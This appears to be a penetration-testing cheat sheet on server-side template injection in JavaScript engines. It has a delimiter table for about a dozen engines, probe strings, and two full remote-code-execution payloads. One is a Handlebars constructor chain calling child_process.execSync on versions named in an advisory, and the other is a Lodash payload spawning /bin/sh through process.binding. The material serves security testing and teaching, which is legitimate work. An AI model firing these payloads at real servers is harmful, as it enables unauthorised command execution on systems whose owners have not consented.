 # Server Side Template Injection - JavaScript

> Server-Side Template Injection (SSTI)  occurs when an attacker can inject malicious code into a server-side template, causing the server to execute arbitrary commands. In the context of JavaScript, SSTI vulnerabilities can arise when using server-side templating engines like Handlebars, EJS, or Pug, where user input is integrated into templates without adequate sanitization.


## Summary

- [Templating Libraries](#templating-libraries)
- [Handlebars](#handlebars)
    - [Handlebars - Basic Injection](#handlebars---basic-injection)
    - [Handlebars - Command Execution](#handlebars---command-execution)
- [Lodash](#Lodash)
    - [Lodash - Basic Injection](#lodash---basic-injection)
    - [Lodash - Command Execution](#lodash---command-execution)
- [References](#references)


## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| DotJS        | `{{= }}`  |
| DustJS       | `{}`      |
| EJS          | `<% %>`   |
| HandlebarsJS | `{{ }}`   |
| HoganJS      | `{{ }}`   |
| Lodash       | `{{= }}`  |
| MustacheJS   | `{{ }}`   |
| NunjucksJS   | `{{ }}`   |
| PugJS        | `#{}`     |
| TwigJS       | `{{ }}`   |
| UnderscoreJS | `<% %>`   |
| VelocityJS   | `#=set($X="")$X` |
| VueJS        | `{{ }}`   |


## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Basic Injection

```js
{{this}}
{{self}}
```

### Handlebars - Command Execution

This payload only work in handlebars versions, fixed in [GHSA-q42p-pg8m-cqh6](https://github.com/advisories/GHSA-q42p-pg8m-cqh6):

* `>= 4.1.0`, `< 4.1.2`
* `>= 4.0.0`, `< 4.0.14`
* `< 3.0.7`

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)
> A modern JavaScript utility library delivering modularity, performance & extras.

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - Command Execution

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```


## References

- [Exploiting Less.js to Achieve RCE - Jeremy Buis - July 1, 2021](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Handlebars template injection and RCE in a Shopify app - Mahmoud Gamal - April 4, 2019](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)